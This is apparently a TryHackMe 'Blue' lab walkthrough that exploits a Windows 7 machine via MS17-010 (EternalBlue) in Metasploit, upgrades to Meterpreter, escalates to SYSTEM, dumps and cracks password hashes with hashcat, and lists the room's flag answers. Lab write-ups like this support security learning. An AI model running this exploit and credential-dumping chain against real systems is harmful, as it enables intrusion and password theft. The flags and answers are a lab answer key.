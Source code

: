 [blue - TryHackMe](https://tryhackme.com/room/blue) | Cya-nyde
==============================================================

## Recon

### How many ports are open with a port number under 1000?

- <code>nmap -p 1-1000 *target ip*</code> to list all open ports under port 1000

```
PORT    STATE SERVICE
135/tcp open  msrpc
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds
```

> There are **3** results returned

### What is this machine vulnerable to?

- <code>sudo nmap -sV -script=vuln -T5 -p 135,139,445 *target ip*</code> to run vuln scan on discovered open ports


```
PORT    STATE SERVICE      VERSION
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
MAC Address: 16:FF:CE:C9:65:03 (Unknown)
Service Info: Host: JON-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_smb-vuln-ms10-054: false
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
|_smb-vuln-ms10-061: NT_STATUS_ACCESS_DENIED

```

> The scan shows that the target is vulnerable to **ms17-010**

## Gain Access

- Use `msfconsole` to open *metasploit*

### Find the exploitation code we will run against the machine. What is the full path of the code? 

- `search ms17-010` to list metasploit modules related to this exploit

```
Matching Modules
================

   #  Name                                      Disclosure Date  Rank     Check  Description
   -  ----                                      ---------------  ----     -----  -----------
   0  exploit/windows/smb/ms17_010_eternalblue  2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   1  exploit/windows/smb/ms17_010_psexec       2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   2  auxiliary/admin/smb/ms17_010_command      2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   3  auxiliary/scanner/smb/smb_ms17_010                         normal   No     MS17-010 SMB RCE Detection
   4  exploit/windows/smb/smb_doublepulsar_rce  2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution

```

> The full path to the exploit is **exploit/windows/smb/ms17_010_eternalblue**

### Show options and set the one required value. What is the name of this value?

- `use 0` or `use exploit/windows/smb/ms17_010_eternalblue` to use the eternalblue module
- `show options` to list options

> The only empty option that we need to change is **RHOSTS**

## Escalate

### Research online how to convert a shell to meterpreter shell in metasploit. What is the name of the post module we will use?

- *ctrl + z* to background session after initial foothold on target
- `search type:post shell to meterpreter` to find module to stabilize shell

> The module to use is called **post/multi/manage/shell_to_meterpreter**

### Select this (use MODULE_PATH). Show options, what option are we required to change?

> The option that needs to be set is **SESSION**

- Confirm access level using `getsystem`
   - Should be running as SYSTEM
- List running processes using `ps`
- Migrate to a process with NT AUTHORITY\SYSTEM with `migrate *process id*`

## Cracking

### Within our elevated meterpreter shell, run the command 'hashdump'. This will dump all of the passwords on the machine as long as we have the correct privileges to do so. What is the name of the non-default user? 

> <code>hashdump</code> returns three users: Administrator, Guest, and **Jon**

### Copy this password hash to a file and research how to crack it. What is the cracked password?

- `echo "*hash value*" > temp` to create a temp file with the password hash
- `hashcat temp` to crack the password hash in the temp file

> The cracked password returned from *hashcat* is **alqfna22**

## Find Flags

### Flag 1

- `search -f flag*.txt` within Meterpreter shell to locate all flags

```
Found 3 results...
==================

Path                                  Size (bytes)  Modified (UTC)
----                                  ------------  --------------
c:\Users\Jon\Documents\flag3.txt      37            2019-03-17 19:26:36 +0000
c:\Windows\System32\config\flag2.txt  34            2019-03-17 19:32:48 +0000
c:\flag1.txt                          24            2019-03-17 19:27:21 +0000
```

> <details><summary><code>cat C:/flag1.txt</code> to get the flag: </summary>flag{access_the_machine}</details>

### Flag 2

> <details><summary><code>cat C:/Windows/System32/config/flag2.txt</code> to get the flag: </summary>flag{sam_database_elevated_access}</details>

### Flag 3

> <details><summary><code>cat C:/Users/Jon/Documents/flag3.txt</code> to get the flag: </summary>flag{admin_documents_can_be_valuable}</details>